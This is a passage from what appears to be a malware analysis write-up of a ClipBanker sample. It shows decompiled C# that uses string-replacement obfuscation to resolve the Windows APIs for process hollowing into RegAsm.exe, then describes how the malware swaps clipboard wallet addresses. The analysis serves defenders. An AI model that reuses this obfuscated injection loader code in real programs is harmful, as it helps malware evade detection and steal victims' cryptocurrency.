private static readonly Class1.Delegate9 delegate9_0 = Class1.smethod_0<Class1.Delegate9>("kern!".Replace("!", "el32"), "Create&".Replace("&", "ProcessA"));
private static readonly Class1.Delegate8 delegate8_0 = Class1.smethod_0<Class1.Delegate8>("%ll".Replace("%", "ntd"), "#ewOfSection".Replace("#", "ZwUnmapVi"));
private static readonly Class1.Delegate7 delegate7_0 = Class1.smethod_0<Class1.Delegate7>("kern!".Replace("!", "el32"), "!ssMemory".Replace("!", "ReadProce"));
private static readonly Class1.Delegate6 delegate6_0 = Class1.smethod_0<Class1.Delegate6>("kern!".Replace("!", "el32"), "WritePro@".Replace("@", "cessMemory"));
private static readonly Class1.Delegate5 delegate5_0 = Class1.smethod_0<Class1.Delegate5>("kern!".Replace("!", "el32"), "qllocEx".Replace("q", "VirtualA"));
private static readonly Class1.Delegate4 delegate4_0 = Class1.smethod_0<Class1.Delegate4>("kern!".Replace("!", "el32"), "#ontext".Replace("#", "GetThreadC"));
private static readonly Class1.Delegate2 delegate2_0 = Class1.smethod_0<Class1.Delegate2>("kern!".Replace("!", "el32"), "+adContext".Replace("+", "SetThre"));
private static readonly Class1.Delegate1 delegate1_0 = Class1.smethod_0<Class1.Delegate1>("kern!".Replace("!", "el32"), "Wow64Set%".Replace("%", "ThreadContext"));
private static readonly Class1.Delegate0 delegate0_0 = Class1.smethod_0<Class1.Delegate0>("kern!".Replace("!", "el32"), "@Thread".Replace("@", "Resume"));
```

Following this, we can see that 'LAbWJK' - our 2nd executable - is being injected into RegAsm.exe

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/11a435b8-b82e-4d19-b4a0-7f91dcea8088)

The 2nd executable is our main payload, which is ClipBanker Malware.

Below we can see the main functionality, which is to monitor the victims clipboard, and when conditions are met, replace it with one of the attacker's wallet addresses.

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/b18fdb28-f3e3-4cee-9101-aeab63a9e315)

Here are the references to the attacker's wallet addresses:

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/3313d627-d9db-4b98-b3b2-0be9cfac69bf)

It doesn't look like it's been too successful so far!

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/8892fc96-43d7-4453-b914-7bd92abc9536)




